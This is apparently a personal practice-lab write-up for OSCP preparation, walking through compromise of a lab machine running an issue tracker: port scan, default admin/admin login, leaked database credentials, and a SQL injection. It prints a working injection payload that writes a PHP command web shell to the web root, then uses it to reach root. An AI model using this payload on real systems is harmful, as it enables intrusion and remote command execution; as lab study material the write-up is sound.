**Start 10:15 23-02-2025**

---
```
Scope:
192.168.246.147
```
# Recon

## Nmap

```bash
sudo nmap -sC -sV -vvvv -Pn -p- hawat -sT -T5 --min-rate=5000

PORT      STATE  SERVICE        REASON       VERSION
22/tcp    open   ssh            syn-ack      OpenSSH 8.4 (protocol 2.0)
| ssh-hostkey: 
|   3072 78:2f:ea:84:4c:09:ae:0e:36:bf:b3:01:35:cf:47:22 (RSA)
| ssh-rsa 
17445/tcp open   http           syn-ack      Apache Tomcat (language: en)
|_http-favicon: Unknown favicon MD5: 70ABF9F47A04ADA79F260A81FD3CE5CD
|_http-trane-info: Problem with XML parsing of /evox/about
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
|_http-title: Issue Tracker
30455/tcp open   http           syn-ack      nginx 1.18.0
|_http-title: W3.CSS
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-server-header: nginx/1.18.0
50080/tcp open   http           syn-ack      Apache httpd 2.4.46 ((Unix) PHP/7.4.15)
|_http-server-header: Apache/2.4.46 (Unix) PHP/7.4.15
|_http-title: W3.CSS Template
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
```


## 17445/TCP - HTTP



I tried to log in:



Then I tried out SQLi



But still got the same output.



### Feroxbuster



This didn't yield anything interesting, moving on for now.


## 30455/TCP - HTTP




### Feroxbuster



Nothing to report.


## 50080/TCP - HTTP






### Feroxbuster



This seemed interesting, let's check it out.


We get another login form.


Looks like it is powered by **Netcloud**.





Shit, let's try some easy ones.


`admin - admin` worked ez pz.

In here we find this file:


Which I then download and check out. After unzipping the folder this comes up:


I started looking from the top files first and discovered the following:





```
issue_user
ManagementInsideOld797
```

Right under it was some SQL code:




### Password Spraying

I tried to log in with the creds on port `17445` but it gave me another error.


And the creds didn't work on SSH either:




## SQLi

Let's take a closer look at the SQL query we found earlier:

```SQL
SELECT message FROM issue WHERE priority='"+priority+"'
```

>[!important]
>Oddly enough the query get's executed by the application, but it doesn't do anything with it?

This query get's issued on the GET request:



Meaning we need to see if we can inject this URL.


### Burpsuite

Let's launch burp.



>[!important]
>Note that this will be the `17445` port, since that is where the **IssueTracker** application is based.

We will now start modifying the request.

Oddly enough nothing was happening when I started trying different payloads.



>[!fail]
>I then realized that this was failing due to me not having created an account first. I went ahead and clicked on **Register** where I created an account with the same creds as found and went to the `/issue/checkByPriority` endpoint again so burp could get the request.



Now when we issue the request via burp something completely different happens:





We notice that apparently only `POST` is allowed, contrary to what the source code told us.

I changed the request to `POST` and got a different error this time:



I went ahead and sorted the `priority` by **Unbreak** as per the website:




We now got a `200` code, however it still showed us the **Normal** priorities as well:




### Reverse Shell via SQLi

Now we will encode the following payload as URL so we can get RCE.

```SQL
High' UNION SELECT '<?php echo system($_GET["cmd"]);' INTO OUTFILE '/srv/http/cmd.php'; --
```



Now we will execute it in burp, if all went okay we should get a `200` code.


Awesome, let's see if it worked.

>[!important]
>For this we will head to port `30455`.





Awesome.


# Foothold

Let's get ourselves a shell.







>[!success]
>Thank god we're *root* right away, this shit took way too long


## proof.txt



>[!summary]
>Noone in their right mind would say this box was only **Easy**.
>I had to look up walkthroughs frequently to even begin to understand what I was supposed to do.
>Enumeration part was doable, the SQLi part *fucking* sucked though.

---

**Finished 11:58 23-02-2025**

[^Links]:  [[OSCP Prep]]

#SQLi #linux 